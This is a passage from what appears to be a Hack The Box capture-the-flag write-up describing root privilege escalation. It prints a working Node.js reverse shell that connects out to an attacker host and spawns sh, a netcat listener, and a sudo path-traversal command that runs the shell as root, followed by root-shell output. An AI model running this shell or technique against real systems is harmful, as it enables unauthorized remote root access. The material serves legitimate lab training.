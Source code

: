 In order to exploit this first create a Nodejs reverse shell file and save it with the .js file extension on the attack machine.

Then start a simple http server on the attack machine, and use angoose to wget it on the target.

```text-plain
(function(){
   var net = require("net"),
       cp = require("child_process"),
       sh = cp.spawn("sh", []);
   var client = new net.Socket();
   client.connect(4444, "10.0.0.1", function(){
       client.pipe(sh.stdin);
       sh.stdout.pipe(client);
       sh.stderr.pipe(client);
   });
   return /a/; // Prevents the Node.js application from crashing
})();
```

Start a netcat listener on the attack box.

```text-plain
nc -nlvp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
```

Execute the rev shell with angoose.

```text-plain
sudo node /usr/local/scripts/../../../home/angoose/update.js
```

Root Shell
----------

Finally we caught the shell on our listener and have root permission on the target.

```text-plain
Ncat: Connection from 10.10.11.196.
Ncat: Connection from 10.10.11.196:52296.
id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is at /root/root.txt

```text-plain
cat /root/root.txt
HTB{********************************}
```
